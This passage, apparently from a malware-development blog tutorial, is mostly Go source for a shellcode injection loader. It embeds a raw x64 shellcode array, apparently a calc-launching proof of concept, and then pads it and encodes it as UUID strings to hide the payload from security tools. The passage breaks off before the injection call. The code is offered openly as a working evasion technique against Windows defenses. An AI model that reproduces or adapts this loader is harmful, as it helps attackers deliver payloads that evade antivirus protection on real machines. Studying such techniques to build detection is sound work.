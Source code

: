 Let’s put all together to make it work. The final code should be something like this:

```go
package main

/*

Author: Waseem Akram
Blog post: https://hackerwasii.com/blogposts/malware-development-uuidfromstring-shellcode-injection-golang

*/

import (
  "fmt"
  "log"
  "bytes"
  "unsafe"
  "encoding/binary"

  "golang.org/x/sys/windows"
  "github.com/google/uuid"
)

func main(){
  var shellcode = []byte{0x50, 0x51, 0x52, 0x53, 0x56, 0x57, 0x55, 0x6a, 0x60, 0x5a, 0x68, 0x63, 0x61, 0x6c, 0x63, 0x54, 0x59, 0x48, 0x83, 0xec, 0x28, 0x65, 0x48, 0x8b, 0x32, 0x48, 0x8b, 0x76, 0x18, 0x48, 0x8b, 0x76, 0x10, 0x48, 0xad, 0x48, 0x8b, 0x30, 0x48, 0x8b, 0x7e, 0x30, 0x3, 0x57, 0x3c, 0x8b, 0x5c, 0x17, 0x28, 0x8b, 0x74, 0x1f, 0x20, 0x48, 0x1, 0xfe, 0x8b, 0x54, 0x1f, 0x24, 0xf, 0xb7, 0x2c, 0x17, 0x8d, 0x52, 0x2, 0xad, 0x81, 0x3c, 0x7, 0x57, 0x69, 0x6e, 0x45, 0x75, 0xef, 0x8b, 0x74, 0x1f, 0x1c, 0x48, 0x1, 0xfe, 0x8b, 0x34, 0xae, 0x48, 0x1, 0xf7, 0x99, 0xff, 0xd7, 0x48, 0x83, 0xc4, 0x30, 0x5d, 0x5f, 0x5e, 0x5b, 0x5a, 0x59, 0x58, 0xc3}

  // Check shellcode length to add some zero
  if 16 - len(shellcode) %16 < 16 {
    pad := bytes.Repeat([]byte{byte(0x90)}, 16-len(shellcode)%16)
    shellcode = append(shellcode, pad...)
  }

  // Convert shellcode to UUIDs
  fmt.Println("Converting shellcode to UUIDs...")
  var uuids []string
  for i := 0; i < len(shellcode); i += 16 {
    var uuidBytes []byte

    buf := make([]byte, 4)
    binary.LittleEndian.PutUint32(buf, binary.BigEndian.Uint32(shellcode[i:i+4]))
    uuidBytes = append(uuidBytes, buf...)

    buf = make([]byte, 2)
    binary.LittleEndian.PutUint16(buf, binary.BigEndian.Uint16(shellcode[i+4:i+6]))
    uuidBytes = append(uuidBytes, buf...)

    buf = make([]byte, 2)
    binary.LittleEndian.PutUint16(buf, binary.BigEndian.Uint16(shellcode[i+6:i+8]))
    uuidBytes = append(uuidBytes, buf...)

    uuidBytes = append(uuidBytes, shellcode[i+8:i+16]...)

    // Use official Google package to convert bytes to uuid
    u, err := uuid.FromBytes(uuidBytes)
    if err != nil {
      log.Fatal(fmt.Errorf("there was an error converting bytes into a UUID:\n%s", err))
    }
```
